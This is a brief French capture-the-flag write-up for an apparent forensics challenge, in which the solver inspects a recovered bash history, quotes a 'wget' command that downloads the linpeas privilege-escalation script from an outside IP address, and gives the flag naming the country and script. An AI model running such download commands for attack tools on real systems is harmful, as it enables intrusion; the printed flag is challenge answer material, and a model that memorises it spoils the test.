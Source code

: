 
![bibliotheque_1](../../../../attachements/bibliotheque_1.png)

![bash_history](../../../../attachements/bash_history)
## Résolution

on récupère l’info utile : 
```
wget http://87.250.224.21/linpeas.sh  
```

On a le nom du script, plus qu’à chercher le pays d’où vient cette IP : la Russie

>[!question]- Spoiler du flag
> OPENNC{Russie_linpeas.sh}

